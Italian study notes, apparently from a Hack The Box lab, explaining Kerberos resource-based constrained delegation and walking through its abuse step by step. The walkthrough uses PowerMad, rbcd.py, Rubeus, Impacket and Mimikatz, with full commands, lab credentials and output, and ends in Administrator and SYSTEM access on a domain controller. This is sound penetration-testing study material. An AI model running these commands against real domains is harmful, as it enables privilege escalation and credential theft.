Gli utenti nel gruppo Protected Users non possono essere impersonati tramite S4U2Self — il DC rifiuta la richiesta. È una delle protezioni che Microsoft ha aggiunto proprio per mitigare questo tipo di attacco.

```
# Verifica se l'utente target è in Protected Users
Get-DomainGroupMember -Identity "Protected Users" | select membername
```

## Resource-Based Constrained Delegation (RBCD)
Finora, la gestione della delega avveniva a livello del servizio che intendeva assumere l'identità di un utente per accedere a una risorsa. La RBCD inverte le responsabilità e sposta la gestione della delega alla risorsa finale. Non è più a livello di servizio che si elencano le risorse a cui è possibile delegare, ma a livello di risorsa viene creato un elenco di fiducia. Qualsiasi account presente in questo elenco di fiducia ha il diritto di delegare l'autenticazione per accedere alla risorsa.

In questo esempio, l'elenco di fiducia dell'account ```DBSRV$``` contiene solo l'account ```WEBSRV$```. Pertanto, un utente sarà autorizzato se ```WEBSRV$``` desidera impersonare un utente per accedere a un servizio esposto da DBSRV. D'altra parte, agli altri account non è consentito delegare l'autenticazione a nessun servizio fornito da DBSRV.



A differenza degli altri due tipi di delega, la risorsa ha il diritto di modificare il proprio elenco di account attendibili. Pertanto, qualsiasi account di servizio ha il diritto di modificare il proprio elenco di account attendibili per consentire a uno o più account di delegare l'autenticazione a se stessi.

Se un account di servizio aggiunge uno o più account al proprio elenco di account attendibili, aggiorna l'attributo ```msDS-AllowedToActOnBehalfOfOtherIdentity``` nella directory.

Nel seguente comando PowerShell, aggiungiamo l'account ```WEBSRV$``` all'elenco di fiducia di ```DBSRV```:
```
PS C:\Tools> Import-Module ActiveDirectory
PS C:\Tools> Set-ADComputer DBSRV -PrincipalsAllowedToDelegateToAccount (Get-ADComputer WEBSRV)
```



Il flusso è identico alla Constrained:
```
1. Utente si autentica a WEBSRV → manda TGS

2. WEBSRV fa TGS request al DC con:
   ├── additional tickets = TGS dell'utente
   └── cname-in-addl-tkt flag settato

3. Il DC verifica:
   └── WEBSRV è nella lista msDS-AllowedToActOnBehalfOfOtherIdentity di DBSRV?

4. DC restituisce TGS per DBSRV con identità dell'utente

5. WEBSRV accede a DBSRV AS the user
```

Con la Constrained Delegation serviva un Domain Admin per configurarla. Con RBCD:
- Il proprietario di un oggetto AD può modificare ```msDS-AllowedToActOnBehalfOfOtherIdentity``` su sé stesso

Quindi se un attaccante ha scrittura su un oggetto computer, può configurare RBCD su quell'oggetto e ottenere l'impersonation senza bisogno di privilegi di Domain Admin.


### Il problema della constrained delegation classica
- Con la constrained delegation classica, chi decide chi può delegare verso cosa è sempre l'AD admin — lui setta msds-allowedtodelegateto sull'account di Service A dicendo "puoi delegare verso Service B".
- Questo significa che ogni volta che un team ha bisogno di configurare una delega, deve aprire un ticket all'AD admin centrale. Non scala bene in ambienti grandi.

### L'idea di RBCD
Con RBCD si ribalta la logica — non è Service A che dichiara verso chi può delegare, è Service B che dichiara chi può delegare verso di lui.

L'attributo si sposta:
```
Constrained classica:   attributo su SERVICE A  → "posso delegare verso B"
RBCD:                   attributo su SERVICE B  → "accetto deleghe da A"
```
L'attributo in questione è ```msds-allowedtoactonbehalfofotheridentity``` su Service B — contiene una security descriptor con la lista degli account che possono delegare verso Service B.

### Perché è più flessibile
Il proprietario di Service B può modificare il proprio attributo senza coinvolgere l'AD admin — basta avere **GenericWrite** o **WriteProperty** sul proprio oggetto computer. In un'azienda grande ogni team gestisce i propri server e può configurare autonomamente chi può delegare verso di loro.

### Il meccanismo Kerberos
Il flusso S4U è identico alla constrained delegation classica — S4U2Self poi S4U2Proxy. La differenza è solo dove il DC va a controllare il permesso:
```
Constrained classica:
DC controlla msds-allowedtodelegateto su SERVICE A
"Service A ha il permesso di delegare verso Service B?"

RBCD:
DC controlla msds-allowedtoactonbehalfofotheridentity su SERVICE B
"Service B accetta deleghe da Service A?"
```

### Esempio RBCD su Windows
Per sferrare attacchi contro RBCD, sono necessari due elementi:

- L'accesso a un utente o a un gruppo che disponga dei privilegi necessari per modificare la proprietà ```msDS-AllowedToActOnBehalfOfOtherIdentity``` su un computer. Ciò è solitamente possibile se l'utente dispone dei privilegi ```GenericWrite```, ```GenericAll```, ```WriteProperty``` o ```WriteDACL``` su un oggetto computer.
- Il controllo di un altro oggetto dotato di SPN.
Il seguente script PowerShell verificherà i computer nel dominio e gli utenti che dispongono dei diritti di accesso richiesti (elemento numero 1) su di essi.

```
# import the PowerView module
Import-Module C:\Tools\PowerView.ps1

# get all computers in the domain
$computers = Get-DomainComputer

# get all users in the domain
$users = Get-DomainUser

# define the required access rights
$accessRights = "GenericWrite","GenericAll","WriteProperty","WriteDacl"

# loop through each computer in the domain
foreach ($computer in $computers) {
    # get the security descriptor for the computer
    $acl = Get-ObjectAcl -SamAccountName $computer.SamAccountName -ResolveGUIDs

    # loop through each user in the domain
    foreach ($user in $users) {
        # check if the user has the required access rights on the computer object
        $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.ObjectSID} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}

        if ($hasAccess) {
            Write-Output "$($user.SamAccountName) has the required access rights on $($computer.Name)"
        }
    }
}
```

```
PS C:\Tools> .\SearchRBCD.ps1

carole.holmes has the required access rights on DC01
```

Il modo più semplice per ottenere un oggetto con SPN è utilizzare un computer. 
- Possiamo utilizzare un computer su cui disponiamo già dei privilegi di amministratore
- Oppure, se non disponiamo di tali diritti, potremmo creare un computer fittizio.

#### Se non disponiamo di tali diritti, potremmo creare un computer fittizio.
Per prima cosa, dobbiamo creare un account computer, cosa possibile poiché ```ms-DS-MachineAccountQuota``` è impostato su 10 per impostazione predefinita per gli utenti autenticati. Possiamo creare il nostro computer fittizio utilizzando lo script ```PowerMad```.

##### Usare PowerMad per creare un computer fittizio
```
PS C:\Tools> Import-Module .\Powermad.ps1
PS C:\Tools> New-MachineAccount -MachineAccount HACKTHEBOX -Password $(ConvertTo-SecureString "Hackthebox123+!" -AsPlainText -Force)

[+] Machine account HACKTHEBOX added
```
Quindi, aggiungiamo questo account utente all'elenco delle entità fidate del computer di destinazione, operazione possibile poiché l'autore dell'attacco dispone dell'ACL GenericAll su tale computer:
- Ottenere il SID del computer.
- Utilizzare il Security Descriptor Definition Language (SDDL) per creare un descrittore di sicurezza.
- Impostare ```msDS-AllowedToActOnBehalfOfOtherIdentity``` in formato binario grezzo.
- Modificare il computer di destinazione.

Modificare il computer di destinazione:
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $ComputerSid = Get-DomainComputer HACKTHEBOX -Properties objectsid | Select -Expand objectsid
PS C:\Tools> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
PS C:\Tools> $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS C:\Tools> $SD.GetBinaryForm($SDBytes, 0)
PS C:\Tools> $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
PS C:\Tools> Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Extracted domain 'INLANEFREIGHT.LOCAL' from 'CN=DC01,OU=Domain
Controllers,DC=INLANEFREIGHT,DC=LOCAL'
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC01,OU=Domain
Controllers,DC=INLANEFREIGHT,DC=LOCAL)))
VERBOSE: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0
36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 7 43 120 111
218 117 136 70 100 139 92 35 55 8 0 0' for object 'DC01$'
```

Possiamo richiedere un TGT per l'account del computer creato, seguito da una richiesta S4U2Self per ottenere un ticket TGS inoltrabile, e poi da una richiesta S4U2Proxy per ottenere un ticket TGS valido per uno SPN specifico sul computer di destinazione. Ma prima, recuperiamo l'hash NT del nostro account del computer.
```
PS C:\Tools> .\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:inlanefreight.local

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Calculate Password Hash(es)

[*] Input password             : Hackthebox123+!
[*] Input username             : HACKTHEBOX$
[*] Input domain               : inlanefreight.local
[*] Salt                       : INLANEFREIGHT.LOCALhosthackthebox.inlanefreight.local
[*]       rc4_hmac             : CF767C9A9C529361F108AA67BF1B3695
[*]       aes128_cts_hmac_sha1 : 91BE80CCB5F58A8F18960858524B6EC6
[*]       aes256_cts_hmac_sha1 : 9457C7FC2D222793B1871EE4E62FEFB1CE158B719F99B6C992D7DC9FFB625D97
[*]       des_cbc_md5          : 5B516BDA5180E5CB
```

Ora che disponiamo dell'hash della password dell'account utente appena creato, richiediamo un ticket TGS per il servizio cifs/```dc01.inlanefreight.local```, che ci consentirà di accedere al computer di destinazione tramite SMB.

```
PS C:\Tools> .\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.inlanefreight.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: CF767C9A9C529361F108AA67BF1B3695
[*] Building AS-REQ (w/ preauth) for: 'INLANEFREIGHT.LOCAL\HACKTHEBOX$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFWjCCBVagAwIBBaE<SNIP>


[*] Action: S4U

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2self request for: 'HACKTHEBOX$@INLANEFREIGHT.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@INLANEFREIGHT.LOCAL' to 'HACKTHEBOX$@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):

      doIGEjCCBg6gAwIBBaED<SNIP>

[*] Impersonating user 'administrator' to target SPN 'cifs/dc01.inlanefreight.local'
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2proxy request for service: 'cifs/dc01.inlanefreight.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc01.inlanefreight.local':

      doIHEDCCBwygAwIBBaEDA<SNIP>
        
[+] Ticket successfully imported!
```

Abbiamo ricevuto il nostro ticket.

> Nota: possiamo anche utilizzare /altservice:host,RPCSS,wsman,http,ldap,krbtgt,ldap per includere servizi aggiuntivi nella nostra richiesta di ticket.

Verificare il ticket:
```
PS C:\Tools> klist

Current LogonId is 0:0xff74b0

Cached Tickets: (1)

#0>     Client: administrator @ INLANEFREIGHT.LOCAL
        Server: cifs/dc01.inlanefreight.local @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 8/25/2020 18:00:26 (local)
        End Time:   8/26/2020 4:00:26 (local)
        Renew Time: 9/1/2020 18:00:26 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Ora possiamo elencare i file sul computer di destinazione come amministratore.
```
PS C:\Tools> ls \\dc01.inlanefreight.local\c$

    Directory: \\dc01.inlanefreight.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---        10/6/2021   3:50 PM                Program Files
d-----        9/15/2018   4:06 AM                Program Files (x86)
d-----        3/30/2023  11:08 AM                Shares
d-----        3/30/2023   3:13 PM                Unconstrained
d-r---         4/3/2023   8:56 AM                Users
d-----       10/14/2022   6:49 AM                Windows
```

Per cancellare l'attributo ```msDS-AllowedToActOnBehalfOfOtherIdentity```, possiamo utilizzare i seguenti comandi PowerShell:
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
PS C:\Tools> Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Extracted domain 'INLANEFREIGHT.LOCAL' from 'CN=DC01,OU=Domain
Controllers,DC=INLANEFREIGHT,DC=LOCAL'
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC01,OU=Domain
Controllers,DC=INLANEFREIGHT,DC=LOCAL)))
VERBOSE: [Set-DomainObject] Clearing 'msDS-AllowedToActOnBehalfOfOtherIdentity' for object 'DC01$'
```

#### Esempio RBCD su Linux
Per prima cosa, dobbiamo creare un account computer, cosa possibile perché ```ms-DS-MachineAccountQuota``` è impostato di default a 10 per gli utenti autenticati. Possiamo usare lo script addcomputer.py di Impacket.
```
Nanan@htb[/htb]$ addcomputer.py -computer-name 'HACKTHEBOX$' -computer-pass Hackthebox123+\! -dc-ip 10.129.205.35 inlanefreight.local/carole.holmes

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
[*] Successfully added machine account HACKTHEBOX$ with password Hackthebox123+!.
```

> Nota: possiamo usare BloodHound.py per enumerare il dominio e cercare privilegi sfruttabili per RBCD da Linux, ma qui usiamo lo stesso esempio della sezione precedente.


Successivamente, dobbiamo aggiungere questo account alla lista di fiducia del computer target. Questo è possibile perché carole.holmes ha permessi ```GenericAll``` ACL su quel computer. Possiamo usare lo script Python [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py).

```
Nanan@htb[/htb]$ python3 rbcd.py -dc-ip 10.129.205.35 -t DC01 -f HACKTHEBOX inlanefreight\\carole.holmes:Y3t4n0th3rP4ssw0rd

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra
                                                                                  
[*] Starting Resource Based Constrained Delegation Attack against DC01$
[*] Initializing LDAP connection to 10.129.205.35
[*] Using inlanefreight\carole.holmes account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `HACKTHEBOX` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `DC01`
[*] Delegation rights modified succesfully!
[*] HACKTHEBOX$ can now impersonate users on DC01$ via S4U2Proxy
```

Ora possiamo:
- Richiedere un TGT
- Fare una richiesta S4U2Self
- Fare una richiesta S4U2Proxy per ottenere un ticket valido per uno specifico servizio

```
Nanan@htb[/htb]$ getST.py -spn cifs/DC01.inlanefreight.local -impersonate Administrator -dc-ip 10.129.205.35 inlanefreight.local/HACKTHEBOX:Hackthebox123+\!

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Poi esportiamo il ticket:
```
export KRB5CCNAME=./Administrator.ccache
```

Ora possiamo usare qualsiasi tool di Impacket, ad esempio psexec.py, per ottenere una shell come SYSTEM.

```
Nanan@htb[/htb]$ psexec.py -k -no-pass dc01.inlanefreight.local

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Requesting shares on dc01.inlanefreight.local.....
[*] Found writable share ADMIN$
[*] Uploading file jCXbAmVs.exe
[*] Opening SVCManager on dc01.inlanefreight.local.....
[*] Creating service FYxR on dc01.inlanefreight.local.....
[*] Starting service FYxR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

#### RBCD da Linux quando MachineAccountQuota = 0
Se non possiamo creare un account computer o non esiste uno SPN, possiamo comunque eseguire l’attacco con un metodo scoperto da [James Forshaw](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html).

Convertiamo la password in hash NT con pypykatz:
```
Nanan@htb[/htb]$ pypykatz crypto nt 'B3thR!ch@rd$'
de3d16603d7ded97bb47cd6641b1a392
```

Richiediamo il TGT:
```
Nanan@htb[/htb]$ getTGT.py INLANEFREIGHT.LOCAL/beth.richards -hashes :de3d16603d7ded97bb47cd6641b1a392 -dc-ip 10.129.205.35
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in beth.richards.ccache
```

Otteniamo la session key del ticket. Questa chiave è fondamentale per i passaggi successivi, poiché consente di trasmettere la chiave di sessione del TGT corrente come nuovo hash NT.
```
Nanan@htb[/htb]$ describeTicket.py beth.richards.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : 7c3d8b8b135c7d574e423dcd826cab58
```
Conoscendo la chiave di sessione del TGT, possiamo modificare la password dell'utente sul controller di dominio tra le richieste S4U2Self e S4U2Proxy. Ciò comporta l'utilizzo del metodo SamrChangePasswordUser per impostare la password dell'utente in modo che corrisponda alla chiave di sessione del TGT, consentendo al KDC di decrittografare il ticket. Per modificare la password dell'utente in modo che corrisponda alla chiave di sessione, possiamo utilizzare changepasswd.py:
```
Nanan@htb[/htb]$ changepasswd.py INLANEFREIGHT.LOCAL/beth.richards@10.129.205.35 -hashes :de3d16603d7ded97bb47cd6641b1a392 -newhash :7c3d8b8b135c7d574e423dcd826cab58
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of INLANEFREIGHT.LOCAL\beth.richards
[*] Connecting to DCE/RPC as INLANEFREIGHT.LOCAL\beth.richards
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
```

Infine, utilizza la delega configurata per assumere l'identità di un utente con privilegi elevati e richiedere un ticket di servizio per il servizio desiderato, come CIFS o LDAP, sul computer di destinazione:
```
Nanan@htb[/htb]$ KRB5CCNAME=beth.richards.ccache getST.py -u2u -impersonate Administrator -spn TERMSRV/DC01.INLANEFREIGHT.LOCAL -no-pass INLANEFREIGHT.LOCAL/beth.richards -dc-ip 10.129.205.35
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@TERMSRV_DC01.INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccache
```

Con il nuovo ticket, possiamo connetterci al controller di dominio come amministratore:
```
Nanan@htb[/htb]$ KRB5CCNAME=Administrator@TERMSRV_DC01.INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccache wmiexec.py DC01.INLANEFREIGHT.LOCAL -k -no-pass
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
DC01
```

### Esempio
- WEB-SRV = Service A — hai compromesso questa macchina, sei local admin
- FILE-SRV = Service B — ha nel suo attributo msds-allowedtoactonbehalfofotheridentity il SID di WEB-SRV$
- Un admin ha configurato RBCD su FILE-SRV dicendo "accetto deleghe da WEB-SRV"

> Nota. In WEB-SRV, devi essere local admin perché l'operazione che fai richiede di leggere la memoria di lsass.exe — e lsass è un processo protetto che solo SYSTEM e gli amministratori locali possono aprire.

#### Step 1 — verifichi la configurazione RBCD su FILE-SRV
```
# Vedi chi può delegare verso FILE-SRV
Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity

# Per leggere il SID in modo leggibile
$raw = (Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity).'msds-allowedtoactonbehalfofotheridentity'
$sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0
$sd.DiscretionaryAcl
# Output: SecurityIdentifier = S-1-5-21-...-1234  ← SID di WEB-SRV$
```

##### Risolvi il SID per confermare:
```
Convert-SidToName S-1-5-21-...-1234
# Output: corp\WEB-SRV$   ← confermato, WEB-SRV può delegare verso FILE-SRV
```

#### Step 2 — dumpi l'hash di WEB-SRV$ da lsass
Sei local admin su WEB-SRV, quindi leggi lsass:
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Output rilevante:
# Authentication Id: 0 ; 996
# Session           : Service from 0
# Username          : WEB-SRV$
# Domain            : CORP
# aes256_hmac       : a3b4c5d6e7f8...
# rc4_hmac_nt       : 1a2b3c4d...
```
Questo comando apre un handle a lsass.exe con SeDebugPrivilege e legge la memoria dove sono conservati gli hash. Un utente normale non ha SeDebugPrivilege — solo gli amministratori locali ce l'hanno per default.

#### Step 3 — S4U2Self + S4U2Proxy
Hai l'hash di WEB-SRV$ e FILE-SRV accetta deleghe da WEB-SRV$ — tutto quello che ti serve:
```
Rubeus.exe s4u /user:WEB-SRV$ /aes256:a3b4c5d6e7f8... /impersonateuser:Administrator /msdsspn:cifs/FILE-SRV.corp.local /ptt
```
Internamente:
```
S4U2Self:
Rubeus → DC: "Administrator si è autenticato a WEB-SRV$"
DC → Rubeus: TGS-1 = "Administrator @ WEB-SRV$"

S4U2Proxy:
Rubeus → DC: TGS-1 + "voglio cifs/FILE-SRV per Administrator"
DC controlla msds-allowedtoactonbehalfofotheridentity su FILE-SRV
→ WEB-SRV$ è nella lista → OK
DC → Rubeus: TGS-2 = "Administrator @ cifs/FILE-SRV"
```

#### Step 4 — accedi a FILE-SRV

```
# Ticket già in memoria grazie a /ptt
ls \\FILE-SRV\c$
# Accesso completo come Administrator

Enter-PSSession -ComputerName FILE-SRV
# Sei dentro come Administrator

# Dumpi lsass di FILE-SRV
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Se un DA è loggato → hai il suo hash → DA compromesso
```

### Esempio 2 - non ci sono delegation configurate e le crei tu abusando di GenericWrite.
Hai GenericWrite su PC-Luca — non sei DA, sei un utente normale. Con RBCD puoi diventare Administrator su PC-Luca da solo.
#### Step 1 — crei un computer account fasullo (ogni utente di dominio può crearne fino a 10 di default):
```
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount FakePC -Password (ConvertTo-SecureString 'Pass123!' -AsPlainText -Force)

# Prendi il SID di FakePC
$fakeSID = Get-DomainComputer FakePC | select -expand objectsid
```

#### Step 2 — scrivi l'attributo RBCD su PC-Luca dicendo che FakePC può delegare verso di lui:
```
# Costruisci la security descriptor
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$fakeSID)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Scrivi su PC-Luca (hai GenericWrite quindi puoi farlo)
Set-DomainObject -Identity PC-Luca -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Verifica che sia stato scritto
Get-DomainComputer PC-Luca -Properties msds-allowedtoactonbehalfofotheridentity
```

#### Step 3 — ora FakePC può delegare verso PC-Luca. Usi S4U2Self + S4U2Proxy con le credenziali di FakePC:
```# Ottieni hash di FakePC
$cred = New-Object System.Net.NetworkCredential('FakePC$', 'Pass123!')
$hash = # calcoli l'NTLM hash di Pass123!

# S4U2Self + S4U2Proxy — impersoni Administrator verso PC-Luca
Rubeus.exe s4u /user:FakePC$ /rc4:<hash-fakepc> /impersonateuser:Administrator /msdsspn:cifs/PC-Luca.corp.local /ptt

# Accedi a PC-Luca come Administrator
ls \\PC-Luca\c$
```

##### Perché funziona S4U2Self qui
Nota che FakePC$ non ha TrustedToAuthForDelegation: True — è un computer account normale. Però S4U2Self funziona lo stesso perché con RBCD il DC applica regole diverse:
```
Constrained classica:   S4U2Self richiede TrustedToAuthForDelegation = True
RBCD:                   S4U2Self funziona sempre, il DC controlla solo
                        msds-allowedtoactonbehalfofotheridentity su Service B
```
È una differenza sottile ma importante — con RBCD non hai bisogno che FakePC abbia nessun flag speciale, basta che PC-Luca lo accetti nella sua lista.


#### Output di Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity

L'output raw è illeggibile direttamente perché l'attributo è un binary blob — una security descriptor in formato binario:
```
Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128, 20, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 36, 0, 0, 0, 1, 2, 0, 0...}
```
Non ci capisci nulla così — è una serie di byte grezzi. Per leggerlo devi decodificarlo:
```
$raw = (Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity).'msds-allowedtoactonbehalfofotheridentity'
$sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0
$sd.DiscretionaryAcl | select SecurityIdentifier, AceType, AccessMask
SecurityIdentifier                          AceType  AccessMask
------------------                          -------  ----------
S-1-5-21-3623811015-3361044348-30300820-1234  Allow    983551
```
Poi risolvi il SID in nome leggibile:
```
Convert-SidToName S-1-5-21-3623811015-3361044348-30300820-1234
corp\WEB-SRV$
```

Quindi il risultato finale leggibile è che WEB-SRV$ può delegare verso FILE-SRV — ma ci vuole quel passaggio di decodifica intermedio perché AD salva la security descriptor in binario grezzo, non in testo.

